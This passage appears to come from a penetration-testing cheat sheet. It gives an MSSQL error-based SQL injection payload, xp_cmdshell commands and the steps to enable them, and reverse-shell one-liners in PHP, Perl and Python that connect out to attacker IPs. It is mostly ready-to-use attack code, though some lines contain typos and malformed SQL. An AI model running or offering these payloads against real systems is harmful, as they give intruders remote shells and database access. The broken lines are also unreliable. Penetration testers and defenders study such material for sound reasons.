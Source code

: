 > After each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample.

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

#### Shell commands

`EXEC master..xp_cmdshell <command>`

> You need yo be 'sa' user.

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`

### Jenkins

---

# Post Exploitation

## Reverse Shell

### PHP Reverse Shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Tiny Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.36.167/1337 0>&1'");
```

### Perl Reverse Shell

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
